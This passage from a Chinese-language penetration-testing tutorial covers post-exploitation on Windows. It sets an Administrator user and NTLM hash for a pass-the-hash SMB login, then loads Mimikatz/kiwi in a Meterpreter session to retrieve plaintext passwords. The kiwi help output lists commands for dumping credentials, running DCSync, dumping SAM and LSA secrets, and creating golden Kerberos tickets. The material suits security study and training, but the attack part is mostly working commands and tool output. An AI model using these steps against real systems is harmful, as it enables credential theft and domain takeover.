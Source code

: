 给SMBUser

```
Administrator
```

给SMBPass

```
aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

## 破解纯文本密码

在Meterpreter下，使用`Mimikatz`获取密码

首先加载Mimikatz模块

```
load mimikatz
```

得到如下结果

```
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

在msf6中，mimikatz被kiwi替代了

```
The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
```

帮助文档如下

```
Kiwi Commands
=============

    Command                Description
    -------                -----------
    creds_all              Retrieve all credentials (parsed)
    creds_kerberos         Retrieve Kerberos creds (parsed)
    creds_livessp          Retrieve Live SSP creds
    creds_msv              Retrieve LM/NTLM creds (parsed)
    creds_ssp              Retrieve SSP creds
    creds_tspkg            Retrieve TsPkg creds (parsed)
    creds_wdigest          Retrieve WDigest creds (parsed)
    dcsync                 Retrieve user account information via DCSync (unpars
                           ed)
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCS
                           ync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
```